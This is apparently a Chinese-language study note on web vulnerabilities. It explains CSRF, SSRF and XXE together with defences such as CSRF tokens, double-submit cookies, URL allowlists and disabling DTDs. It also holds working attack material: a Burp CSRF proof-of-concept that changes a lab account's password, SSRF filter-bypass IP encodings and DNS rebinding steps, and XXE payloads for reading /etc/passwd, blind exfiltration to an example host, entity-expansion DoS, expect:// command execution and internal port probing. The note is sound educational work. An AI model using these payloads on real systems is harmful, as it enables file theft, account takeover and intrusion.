

CSRF
跨站请求伪造 (Cross-site request forgery, CSRF) 是一种攻击，它强制终端用户在当前对其进行身份验证后的 Web 应用程序上执行非本意的操作。攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台的用户验证，达到冒充用户对被攻击的网站执行某项操作的目的。
CSRF 攻击着重点在伪造更改状态请求，而不是盗取数据，因为攻击者无法查看对伪造请求的响应。
token完美防御csrf
使用Token，token是一种将表单value的加密算法生成不同的加密结果。
CSRF的一个特征是，攻击者无法直接窃取到用户的信息（Cookie，Header，网站内容等），仅仅是冒用Cookie中的信息。而CSRF攻击之所以能够成功，是因为服务器误把攻击者发送的请求当成了用户自己的请求。那么我们可以要求所有的用户请求都携带一个CSRF攻击者无法获取到的Token。服务器通过校验请求是否携带正确的Token，来把正常的请求和攻击的请求区分开，也可以防范CSRF的攻击。
原理：
1. 将CSRF Token输出到页面中
首先，用户打开页面的时候，服务器需要给这个用户生成一个Token，显然在提交时Token不能再放在Cookie中了，否则又会被攻击者冒用。为了安全起见Token最好还是存在服务器的Session中，之后在每次页面加载时，使用JS遍历整个DOM树，对于DOM中所有的a和form标签后加入Token。但是对于在页面加载之后动态生成的HTML代码，这种方法就没有作用，还需要程序员在编码时手动添加Token。
2. 页面提交的请求携带这个Token
对于GET请求，Token将附在请求地址之后，这样URL 就变成 http://url?csrftoken=tokenvalue。 而对于 POST 请求来说，要在 form 的最后加上：
<input type=”hidden” name=”csrftoken” value=”tokenvalue”/>这样，就把Token以参数的形式加入请求了。
3. 服务器验证Token是否正确
同源检测
既然CSRF大多来自第三方网站，那么我们就直接禁止外域（或者不受信任的域名）对我们发起请求。
使用Referer Header确定来源域名
根据HTTP协议，在HTTP头中有一个字段叫Referer，记录了该HTTP请求的来源地址。 对于Ajax请求，图片和script等资源请求，Referer为发起请求的页面地址。对于页面跳转，Referer为打开页面历史记录的前一个页面地址。因此我们使用Referer中链接的Origin部分可以得知请求的来源域名。
这种方法并非万无一失，Referer的值是由浏览器提供的，虽然HTTP协议上有明确的要求，但是每个浏览器对于Referer的具体实现可能有差别，并不能保证浏览器自身没有安全漏洞。使用验证 Referer 值的方法，就是把安全性都依赖于第三方（即浏览器）来保障，从理论上来讲，这样并不是很安全。在部分情况下，攻击者可以隐藏，甚至修改自己请求的Referer。
分布式校验
在大型网站中，使用Session存储CSRF Token会带来很大的压力。由于使用Session存储，读取和验证CSRF Token会引起比较大的复杂度和性能问题，目前很多网站采用Encrypted Token Pattern方式。这种方法的Token是一个计算出来的结果，而非随机生成的字符串。这样在校验时无需再去读取存储的Token，只用再次计算一次即可。这种Token的值通常是使用UserID、时间戳和随机数，通过加密的方法生成。这样既可以保证分布式服务的Token一致，又能保证Token不容易被破解。
在token解密成功之后，服务器可以访问解析值，Token中包含的UserID和时间戳将会被拿来被验证有效性，将UserID与当前登录的UserID进行比较，并将时间戳与当前时间进行比较。
小结
Token是一个比较有效的CSRF防护方法，只要页面没有XSS漏洞泄露Token，那么接口的CSRF攻击就无法成功。
但是此方法的实现比较复杂，需要给每一个页面都写入Token（前端无法使用纯静态页面），每一个Form及Ajax请求都携带这个Token，后端对每一个接口都进行校验，并保证页面Token及请求Token一致。这就使得这个防护策略不能在通用的拦截上统一拦截处理，而需要每一个页面和接口都添加对应的输出和校验。这种方法工作量巨大，且有可能遗漏。
验证码和密码其实也可以起到CSRF Token的作用哦，而且更安全。
为什么很多银行等网站会要求已经登录的用户在转账时再次输入密码，现在是不是有一定道理了？
双重Cookie验证
在会话中存储CSRF Token比较繁琐，而且不能在通用的拦截上统一处理所有的接口。
那么另一种防御措施是使用双重提交Cookie。利用CSRF攻击不能获取到用户Cookie的特点，我们可以要求Ajax和表单请求携带一个Cookie中的值。
双重Cookie采用以下流程：
- 在用户访问网站页面时，向请求域名注入一个Cookie，内容为随机字符串（例如
csrfcookie=v8g9e4ksfhw）。 - 在前端向后端发起请求时，取出Cookie，并添加到URL的参数中（接上例
POST https://www.a.com/comment?csrfcookie=v8g9e4ksfhw）。 - 后端接口验证Cookie中的字段与URL参数中的字段是否一致，不一致则拒绝。
此方法相对于CSRF Token就简单了许多。可以直接通过前后端拦截的的方法自动化实现。后端校验也更加方便，只需进行请求中字段的对比，而不需要再进行查询和存储Token。
缺点：
- Cookie中增加了额外的字段。
- 如果有其他漏洞（例如XSS），攻击者可以注入Cookie，那么该防御方式失效。
- 难以做到子域名的隔离。
- 为了确保Cookie传输安全，采用这种防御方式的最好确保用整站HTTPS的方式，如果还没切HTTPS的使用这种方式也会有风险。
CSRF攻击有着比较明显的特征：
- 跨域请求。
- GET类型请求Header的MIME类型大概率为图片，而实际返回Header的MIME类型为Text、JSON、HTML。
防护策略：
- CSRF自动防御策略：同源检测（Origin 和 Referer 验证）。
- CSRF主动防御措施：Token验证 或者 双重Cookie验证 以及配合Samesite Cookie。
- 保证页面的幂等性，后端接口不要在GET页面中做用户操作。
CSRF与XSS的区别：
CSRF是借用户的权限完成攻击，攻击者并没有拿到用户的权限，而XSS是直接盗取到了用户的权限，然后实施破坏。XSS主要攻击客户端，CSRF主要是伪装去访问服务器。
漏洞演示：
这个是dvwa靶场
BP直接生成CSRF的POC
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<script>history.pushState('', '', '/')</script>
<form action="http://dvwa.njhack.xyz/vulnerabilities/csrf/">
<input type="hidden" name="password_new" value="123456" />
<input type="hidden" name="password_conf" value="123456" />
<input type="hidden" name="Change" value="Change" />
<input type="submit" value="Submit request" />
</form>
</body>
</html>
用户点到就G。
SSRF
服务端请求伪造（Server Side Request Forgery, SSRF）指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞以服务器的身份发送一条构造好的请求给服务器所在内网。SSRF攻击通常针对外部网络无法直接访问的内部系统。
SSRF涉及到的危险函数主要是网络访问，支持伪协议的网络读取。以PHP为例，涉及到的函数有 file_get_contents() / fsockopen() / curl_exec() 等。
漏洞危害
SSRF可以对外网、服务器所在内网、本地进行端口扫描，攻击运行在内网或本地的应用，或者利用File协议读取本地文件。
可能出现的地方
- 社交分享功能：获取超链接的标题等内容进行显示
- 图片加载/下载：例如富文本编辑器中的点击下载图片到本地；通过URL地址加载或下载图片
- 数据库内置功能：数据库的比如mongodb的copyDatabase函数
- 邮件系统：比如接收邮件服务器地址
漏洞验证
dnslog等工具进行测试，看是否被访问
抓包分析发送的请求是不是由服务器的发送的，如果不是客户端发出的请求，则有可能是，接着找存在HTTP服务的内网地址
过滤绕过
更改IP地址写法
一些开发者会通过对传过来的URL参数进行正则匹配的方式来过滤掉内网IP，如采用如下正则表达式：
^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$
对于这种过滤我们采用改编IP的写法的方式进行绕过，例如192.168.0.1这个IP地址可以被改写成：
- 8进制格式：0300.0250.0.1
- 16进制格式：0xC0.0xA8.0.1
- 10进制整数格式：3232235521
- 16进制整数格式：0xC0A80001
- 合并后两位：1.1.278 / 1.1.755
- 合并后三位：1.278 / 1.755 / 3.14159267
另外IP中的每一位，各个进制可以混用。
访问改写后的IP地址时，Apache会报400 Bad Request，但Nginx、MySQL等其他服务仍能正常工作。
另外，0.0.0.0这个IP可以直接访问到本地，也通常被正则过滤遗漏
利用解析URL所出现的问题
在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。这时候可能会出现对URL参数解析不当，导致可以绕过过滤。
比如 http://www.baidu.com@192.168.0.1/ 当后端程序通过不正确的正则表达式（比如将http之后到com为止的字符内容，也就是www.baidu.com，认为是访问请求的host地址时）对上述URL的内容进行解析的时候，很有可能会认为访问URL的host为www.baidu.com，而实际上这个URL所请求的内容都是192.168.0.1上的内容。
利用IPv6
有些服务没有考虑IPv6的情况，但是内网又支持IPv6，则可以使用IPv6的本地IP如 [::] 0000::1 或IPv6的内网域名来绕过过滤。
DNS重绑定攻击（ DNS Rebinding）
需要一个域名，并且将这个域名的解析指定到我们自己的DNS Server，在我们的可控的DNS Server上编写解析服务，设置TTL时间为0。这样就可以进行攻击了，完整的攻击流程为：
- 服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP
- 对于获得的IP进行判断，发现为非黑名单IP，则通过验证
- 服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。
- 由于已经绕过验证，所以服务器端返回访问内网资源的结果。
修复方法
- 禁用不需要的协议，仅仅允许http和https请求。可以防止类似于file://, gopher://, ftp:// 等引起的问题
- 设置URL白名单或者限制内网IP
- 限制请求的端口为http常用的端口，比如 80、443、8080、8090
- 对DNS Rebinding，考虑使用DNS缓存或者Host白名单
- 过滤返回的信息
XXE
XML外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、DOS攻击，命令执行、内网端口扫描、攻击内网网站等危害。攻击者通过向服务器注入指定的xml实体内容,从而让服务器按照指定的配置进行执行,导致问题。
XML 语法主要有以下的特性：
- 所有 XML 元素都须有关闭标签
- XML 标签对大小写敏感
- XML 必须正确地嵌套
- XML 文档必须有根元素
- XML 的属性值需要加引号
XML：传输和存储数据的格式，其焦点是数据的内容，其把数据从HTML分离，是独立于软件和硬件的信息传输工具。HTML更关注数据的样式。
相关概念
DTD
DTD的作用就是用来定义XML文档的合法构建模块DTD可以在XML文档内声明，也可以在外部引用。
引用方式：
- DTD 内部声明
<!DOCTYPE 根元素 [元素声明]> - DTD 外部引用
<!DOCTYPE 根元素名称 SYSTEM “外部DTD的URI”> - 引用公共DTD
<!DOCTYPE 根元素名称 PUBLIC “DTD标识名” “公用DTD的URI”>
ENTITY
一般用于变量声明：<!ENTITY 实体名称 "实体的值">
外部普通实体：
一般用于加载外部文件，不同程序支持的协议不一样。这里我们就可以利用不同协议来达到任意文件读取/内网探测等。比如在下面的攻击方式中，读取文件时，所用的就是PHP的file协议。
还可以通过DTD文档引入外部DTD文档，再引入外部实体声明
<?xml version=1.0?>
<!DOCTYPE a SYSTEM "http://example/1.dtd">
<q>&b;</q>DTD文件内容：
<!ENTITY b SYSTEM "file:///etc/passwd">外部参数实体
参数实体用于DTD和文档的内部子集中。与一般实体不同，是以字符（%）开始，以字符（;）结束。只有在DTD文件中才能在参数实体声明的时候引用其他实体。除了可以完成有回显的情况。这里还可以用于Blind XXE攻击。<!ENTITY % 实体名称 "实体的值">或者<!ENTITY % 实体名称 SYSTEM "URI">
如（Blind XXE）：
由于语法限制所以我们需要在外部DTD中接受对应参数
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://example/1.dtd">
%dtd;
%send;
]>1.dtd 内部的%号要进行实体编码成%。
<!ENTITY % all
"<!ENTITY % send SYSTEM 'http://127.0.0.1:8888/?file=%file;'>"
>
%all;为什么使用 DTD？
通过 DTD，每一个 XML 文件均可携带一个有关其自身格式的描述。
通过 DTD，独立的团体可一致地使用某个标准的 DTD 来交换数据。
应用程序也可使用某个标准的 DTD 来验证从外部接收到的数据。
还可以使用 DTD 来验证自身的数据。
XML解析原理
- 常见的解析思想
DOM(Document Object Model)文档对象模型:就是把文档的各个组成部分看做成对应的对象。
会把xml文件全部加载到内存,在内存中形成一个树形结构,再获取对应的值。
常见的解析工具
- JAXP: SUN公司提供的一套XML的解析的API
- JDOM: 开源组织提供了一套XML的解析的API-jdom
- DOM4J: 开源组织提供了一套XML的解析的API-dom4j,全称：Dom For Java
- pull: 主要应用在Android手机端解析XML
攻击方式
文件读取
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>拒绝服务攻击
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
]>
<data>&a2;</data>RCE
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "expect://id" >
]>
<x>&xxe;</x> 探测内网端口
<?xml version=1.0?>
<!DOCTYPE a [
<!ENTITY b SYSTEM "http://0:80"> ]>
<q>&b;</q>漏洞防护
- 防止 XXE 的最安全方法始终是完全禁用 DTD（外部实体）。禁用DTD还可以使解析器免受拒绝服务 (DoS) 攻击。如果不可能完全禁用 DTD，则必须以特定于每个解析器的方式禁用外部实体和外部文档类型声明。
- 常见的可以过滤
ENTITY，openrasp采用的方式为检测敏感协议和读取的敏感文件。但都存在被绕过的风险。